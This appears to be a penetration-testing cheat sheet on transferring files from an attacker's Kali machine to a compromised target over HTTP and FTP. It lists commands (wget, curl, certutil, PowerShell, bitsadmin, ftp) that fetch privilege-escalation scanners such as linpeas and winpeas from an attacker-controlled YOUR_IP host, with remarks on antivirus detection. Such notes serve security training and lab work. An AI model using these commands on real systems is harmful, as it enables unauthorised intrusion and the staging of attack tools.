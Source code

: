 
### 1. Using HTTP/S (The Most Reliable Method)
This is often the easiest way. You host a simple web server on your attacking machine and use tools on the target to download the file.

**On Your Attacking Machine (Kali):**
```bash
# Python 3 (Best option)
python3 -m http.server 80      # Serve on port 80 (HTTP)
python3 -m http.server 443     # Serve on port 443 (HTTPS-like)

# Python 2 (if needed)
python2 -m SimpleHTTPServer 80
```

**On the Target Machine:**
*   **Linux Target (`wget`, `curl`):**
    ```bash
    wget http://YOUR_IP/linpeas.sh -O /tmp/linpeas.sh
    curl http://YOUR_IP/linpeas.sh -o /tmp/linpeas.sh
    ```
*   **Windows Target (`certutil`, `powershell`, `bitsadmin`):**
    ```cmd
    :: Certutil (Classic, but often flagged by AV now)
    certutil -urlcache -f http://YOUR_IP/winpeasany.exe winpeasany.exe

    :: PowerShell (Modern, very effective)
    powershell -c "Invoke-WebRequest -Uri 'http://YOUR_IP/winpeasany.exe' -OutFile 'winpeasany.exe'"
    powershell -c "(New-Object Net.WebClient).DownloadFile('http://YOUR_IP/winpeasany.exe', 'winpeasany.exe')"

    :: BITSAdmin (Lives off the land)
    bitsadmin /transfer myjob /download /priority normal http://YOUR_IP/winpeasany.exe C:\Windows\Temp\winpeasany.exe
    ```

---

### 2. Using FTP (If an FTP Server is Running)
If the target has an FTP server you can access (e.g., you found credentials), you can upload files to it.

**On Your Attacking Machine:**
```bash
# Connect to the target's FTP server to UPLOAD a file (PUSH)
ftp TARGET_IP
> put /path/on/your/machine/winpeasany.exe
> exit

# Alternatively, start your OWN FTP server for the target to PULL from.
# Using Python pyftpdlib:
pip3 install pyftpdlib
python3 -m pyftpdlib -p 21 -w # -w allows write access (uploads)

# Using pure-ftpd (Kali)
sudo systemctl start pure-ftpd
```
**On the Target Machine:**
```bash
# Linux target connecting to YOUR FTP server
ftp YOUR_IP
> get linpeas.sh
> exit

# Windows target connecting to YOUR FTP server
ftp YOUR_IP
> get winpeasany.exe
```